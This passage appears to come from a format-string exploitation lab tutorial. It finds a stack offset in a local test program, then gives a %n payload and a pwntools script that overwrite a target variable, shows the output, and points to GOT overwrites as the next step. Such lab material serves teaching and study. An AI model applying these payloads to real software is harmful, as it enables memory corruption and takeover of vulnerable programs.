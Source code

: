 ```console
inte@debian-pc:~$ docker run --rm -v "$(pwd):/app" -w /app gcc:10.5.0 gcc example6.c -o example6
inte@debian-pc:~$ ./example6
Target address: 0x404038
%6$p
0x70243625
1337
```

`0x70243625` is `%6$p` in hex; therefore, the offset to input is 6.  
To overwrite `0x1337` with `0xa`, i.e. 10, the payload would be `0123456789%8$n||\x38\x40\x40\x00\x00\x00\x00\x00`  
The offset to forged address changed to 8 because 6 would point to `01234567` and 7 would point to `89%8$n||`.  
We can use `pwntools` to send raw bytes to the pwnable.

```py
from pwn import *

exe = context.binary = ELF('./example6', checksec=False)
# context.aslr = False
# context.log_level = 'debug'

p = exe.process()

# gdb.attach(p, gdbscript='b* main+72')
# pause()

p.sendline(b'0123456789%8$n||\x38\x40\x40\x00\x00\x00\x00\x00')
p.interactive()
```

```console
inte@debian-pc:~$ python3 exploit.py
[+] Starting local process '/mnt/hgfs/corridor/fmtstr_lab/example6': pid 2782
[*] Switching to interactive mode
[*] Process '/mnt/hgfs/corridor/fmtstr_lab/example6' stopped with exit code 0 (pid 2782)
Target address: 0x404038
0123456789||8@@
a
```

`0x1337` was overwritten by `0xa` as expected. However, this technique is only feasible for writing small numbers.  
Format string bugs are often used for GOT overwrite, where the numbers to be written are extremely large.  
There's scope for improvement: `format strings` allow control over the width and alignment of printed arguments.  
For example, 

```c
#include <stdio.h>

int main() {
  printf("Name --> %1$15s Score --> %2$12d\n", "Alice", 7331);
  printf("Name --> %1$15s Score --> %2$12d\n", "Oppenheimer", 45000000);
  return 0;
}
```
